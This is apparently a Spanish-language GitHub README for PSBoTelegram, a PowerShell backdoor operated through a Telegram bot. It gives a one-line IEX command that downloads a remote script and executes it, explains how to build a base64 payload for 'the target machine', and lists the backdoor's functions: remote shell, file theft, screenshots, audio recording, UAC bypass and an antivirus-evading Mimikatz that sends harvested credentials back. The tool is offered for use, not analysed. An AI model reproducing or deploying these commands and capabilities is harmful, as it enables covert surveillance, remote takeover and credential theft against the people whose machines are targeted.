 # PsBoTelegram
Backdoor using Telegram and Powershell  

Podeis probar el script abriendo una consola de powershell y ejecutando este comando:

**IEX (curl "https://raw.githubusercontent.com/cybervaca/PSBoTelegram/master/PSBoTelegram.ps1" ).content**&nbsp;&nbsp;

        ____  _____ ____      ______     __
       / __ \/ ___// __ )____/_  __/__  / /__   ____ __________ _____ __
      / /_/ /\__ \/ __  / __ \/ / / _ \/ / _ \/ __  / ___/ __  / __  __ \
     / ____/___/ / /_/ / /_/ / / /  __/ /  __/ /_/ / /  / /_/ / / / / / /
    /_/    /____/_____/\____/_/  \___/_/\___/\__, /_/   \__,_/_/ /_/ /_/
                                        /____/

                                                     v0.7 by CyberVaca @ HackPlayers

PSBotTelegram es un script escrito en Powershell que nos crea una backdoor que se conecta a Telegram y se gestiona desde Telegram. Al ejecutar el script nos va a pedir tres datos necesarios para crear el shellcode. 

# Instalación en Linux

    git clone https://github.com/hackplayers/psbotelegram.git
    sudo apt-get update > /dev/null
    sudo apt-get install libunwind8 libicu55 
    wget https://github.com/PowerShell/PowerShell/releases/download/v6.0.0-alpha.13/powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    sudo dpkg -i powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb

# Instalación en Windows

    Powershell.exe ./PSBotelegram.ps1
    
Los datos que nos pide son los siguientes:  

# Parametros
![Parametros](./images/parametros.png)  
 
**[+] Introduzca el Token del Bot de Telegram:** "Aquí deberemos poner el Token del bot que hayamos creado."  
**[+] Introduzca su Chat ID:** "Aquí deberemos poner nuestro ID de Telegram."  
**[+] Introduzca el delay para la conexión:** "En este campo seteamos el delay(retardo) entre en pc con el backdoor y nuestro chat de telegram"   

Una vez introducido estos datos, nos creará un shellcode en BASE64 para ejecutarlo en el equipo objetivo.  

# Funciones del backdoor.

[1]&nbsp;&nbsp;&nbsp;**/Help**&nbsp;&nbsp; (Nos muestra la ayuda)  
[2]&nbsp;&nbsp;&nbsp;**/Info**&nbsp;&nbsp; (Devuelve información sobre el equipo)   
[3]&nbsp;&nbsp;&nbsp;**/Shell**&nbsp;&nbsp; (/Shell + CmdLet a ejecutar )  
[4]&nbsp;&nbsp;&nbsp;**/Whoami**&nbsp;&nbsp; (Devuelve el usuario que ejecutó el codigo)  
[5]&nbsp;&nbsp;&nbsp;**/Ippublic**&nbsp;&nbsp; (Nos da IP publica, Pais y Ciudad del Target)  
[6]&nbsp;&nbsp;&nbsp;**/Kill**&nbsp;&nbsp; (Mata el backdoor)  
[7]&nbsp;&nbsp;&nbsp;**/Scriptimport**&nbsp;&nbsp; (Importa el script de powershell pasandole una url)  
[8]&nbsp;&nbsp;&nbsp;**/Shell nc (netcat)**&nbsp;&nbsp; (Función de powercat https://github.com/besimorhino/powercat
)  
[9]&nbsp;&nbsp;&nbsp;**/Download**&nbsp;&nbsp; (Download mas ruta nos descarga el archivo)  
[10]&nbsp;&nbsp;**/Screenshot**&nbsp;&nbsp; (Realiza screenshot y nos lo envia)  
[11]&nbsp;&nbsp;**/Audio**&nbsp;&nbsp; (/Audio X, Grabaría X segundos de audio y nos lo envia)  
[12]&nbsp;&nbsp;**/Keylogger**&nbsp;&nbsp; (/Keylogger -- proximamente)  
[13]&nbsp;&nbsp;**/BypassUAC**&nbsp;&nbsp; (Ejecuta el Bot con privilegios administrativos)  
[14]&nbsp;&nbsp;**/Persistence**&nbsp;&nbsp; (/Persistence -- proximamente)  
[15]&nbsp;&nbsp;**/MimiGatoz**&nbsp;&nbsp; (Ejecuta Mimikatz modificado para el bypass AV y nos envia los datos)


